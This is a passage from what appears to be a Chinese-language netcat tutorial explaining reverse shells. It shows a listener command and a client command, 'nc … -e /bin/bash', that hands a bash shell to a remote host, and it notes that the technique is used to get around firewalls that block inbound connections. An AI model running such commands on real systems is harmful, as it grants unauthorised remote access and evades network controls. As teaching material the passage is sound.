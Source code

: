 你会得到一个shell提示符在客户端


反向shell
-----

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

**服务端**

    $nc -l 1567
    
在客户端，简单地告诉netcat在连接完成后，执行shell。

**客户端**

    $nc 172.31.100.7 1567 -e /bin/bash
    
现在，什么是反向shell的特别之处呢 
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。 



